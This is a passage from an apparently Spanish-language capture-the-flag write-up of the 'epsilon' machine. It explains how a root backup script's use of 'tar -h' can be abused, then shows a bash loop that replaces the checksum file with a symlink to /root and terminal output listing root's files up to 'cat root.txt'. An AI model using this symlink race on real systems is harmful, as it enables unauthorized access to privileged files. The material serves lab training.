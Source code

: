 Básicamente este script hace lo siguiente:

1. Borra todos los archivos dentro de `/opt/backups`
2. Crea un archivo `.tar` con nombre `/opt/backups/$file.tar` que contiene `/var/www/app/`
3. Crea `/opt/backups/checksum` que contiene el hash `SHA1` del archivo `.tar`
4. Espera `5` segundos
5. Crea un nuevo archivo `.tar` que contiene el otro `.tar` y el `checksum` recién generado
6. Elimina todos los archivos dentro de `/opt/backups` de nuevo

La cosa aquí es que `tar` está usando el parámetro `-h` que según el manual:

```txt 
-h, --dereference
    Follow symlinks; archive and dump the files they point to.
```

Por lo que si le colamos un enlace simbólico a `/root` mientras hace `sleep 5`, en teoría debería añadirnos ese directorio al segundo tar. Vamos a usar este script para ello:

```bash wrap=false
while :; do 
    if test -f checksum; then 
        rm -f checksum; 
        ln -s /root checksum; 
        echo "Replaced checksum"; 
        sleep 5; 
        echo "Backup probably done now";
        break;
    fi; 
    sleep 1; 
done
```

```bash wrap=false
tom@epsilon:/opt/backups$ while :; do if test -f checksum; then rm -f checksum; ln -s /root checksum; echo "Replaced checksum"; sleep 5; echo "Backup probably done now"; break; fi; sleep 1; done
Replaced checksum
Backup probably done now
```

```bash wrap=false
tom@epsilon:/opt/backups$ cd /var/backups/web_backups/
tom@epsilon:/var/backups/web_backups$ ls
339235461.tar  366171263.tar  390570640.tar
tom@epsilon:/var/backups/web_backups$ ls -la
total 80424
drwxr-xr-x 2 root root     4096 Oct 22 16:57 .
drwxr-xr-x 3 root root     4096 Oct 22 06:25 ..
-rw-r--r-- 1 root root  1003520 Oct 22 16:55 339235461.tar
-rw-r--r-- 1 root root  1003520 Oct 22 16:56 366171263.tar
-rw-r--r-- 1 root root 80332800 Oct 22 16:57 390570640.tar
tom@epsilon:/var/backups/web_backups$ cp 390570640.tar /dev/shm/
tom@epsilon:/var/backups/web_backups$ cd /dev/shm/ 
tom@epsilon:/dev/shm$ tar xf 390570640.tar 
tar: opt/backups/checksum/.bash_history: Cannot mknod: Operation not permitted
tar: Exiting with failure status due to previous errors
tom@epsilon:/dev/shm$ ls
390570640.tar  multipath  opt
tom@epsilon:/dev/shm$ cd opt/
tom@epsilon:/dev/shm/opt$ ls
backups
tom@epsilon:/dev/shm/opt$ cd backups/
tom@epsilon:/dev/shm/opt/backups$ ls
382129431.tar  checksum
tom@epsilon:/dev/shm/opt/backups$ cd checksum/
tom@epsilon:/dev/shm/opt/backups/checksum$ ls
docker-compose.yml  lambda.sh  root.txt  src
tom@epsilon:/dev/shm/opt/backups/checksum$ cat root.txt 
```